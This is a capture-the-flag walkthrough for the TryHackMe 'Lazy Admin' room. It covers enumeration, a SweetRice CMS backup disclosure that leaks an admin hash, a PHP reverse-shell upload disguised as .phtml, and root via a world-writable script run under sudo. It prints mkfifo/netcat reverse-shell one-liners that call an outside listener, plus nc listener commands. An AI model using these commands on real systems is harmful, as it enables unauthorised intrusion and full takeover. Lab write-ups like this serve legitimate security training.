






# Course Capstone - Lazy Admin

Here is the walkthrough for the TryHackMe room [Lazy Admin](https://tryhackme.com/room/lazyadmin).

## Initial Enumeration
First I ran an Nmap scan against the host to see what services are running:



Since there is a web server running on port 80, let's look here first. Start by running **dirb** against it to discover subdirectories:



A login panel was found at `http://[MACHINE IP]/content/as/index.php`



Searching for vulnerabilities affecting this specific CMS provides a useful route to investigate:
```
The SweetRice CMS MySQL backup vulnerability (often tracked via Exploit-DB 40718) is a Backup Disclosure flaw. 
The CMS stores database backups in a publicly accessible directory (/inc/mysql_backup/), 
allowing unauthenticated attackers to download .sql files and steal sensitive data. 
```

Looking deeper into the Backup Disclosure flaw at `http://[MACHINE IP]/content/inc/mysql_backup/` there is a mysql_backup file that can be downloaded (**mysql_bakup_20191129023059-1.5.1.sql**).

This file contains the following line:
```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\
"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";
s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";
s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";
s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management 
system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,
please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox 
\\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/
5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a>
</p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";
i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";
s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Looking closer the username and password hash can be extracted:
**manager:42f749ade7f9e195bf475f37a44cafcb**

## Gaining a Foothold

I used the site [CrackStation](https://crackstation.net/) to crack the password hash online and was able to log in to the CMS panel. 

Digging around in the SweetRice panel we find a **Media Center** which allows files to be uploaded - time to try uploading a reverse shell.

I created a PHP reverse shell payload using this [generator](https://www.revshells.com/).

It seems that directly uploading PHP files is not allowed, so I used [Burp Suite](https://portswigger.net/burp/communitydownload) to intercept and manipulate the upload request.



Use Burp to edit the reverse shell's file extension to **.phtml** and ensure the Content-Type header is **application/x-php**. Now the file should have uploaded successfully.

Start a netcat listener on your attacker machine: `nc -nlvp [PORT]`
then click the link to the newly uploaded **.phtml** file in the Media Center launches the reverse shell.



Now that we have user access on the machine, find the user flag in **/home/itguy/user.txt**.

## Escalating Privileges

Now that I have user level access as **www-data** I need to begin searching for escalation paths.

In the same directory (/home/itguy/) there are two other files:
* mysql_login.txt
    * This file contains MySQL credentials
* backup.pl
```
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

Use the command `sudo -l` to list all commands that www-data can execute as root:



www-data can execute backup.pl as root, so I have to determine how this can be manipulated. Examining the contents of **/etc/copy.sh** shows an existing reverse shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Now looking at the file permissions of /etc/copy.sh:
```
-rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh
```

This file can be edited! The only edit needed is to change the IP and port used for the netcat connection. Change the file using the command:
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [LISTENING MACHINE] [LISTENING PORT] >/tmp/f' > copy.sh
```

Start a netcat listener on the attacker machine and run the **backup.pl** script: 
* nc -nlvp [LISTENING PORT]
* sudo /usr/bin/perl /home/itguy/backup.pl

Root access has now been achieved. Find the flag in **/root/root.txt**.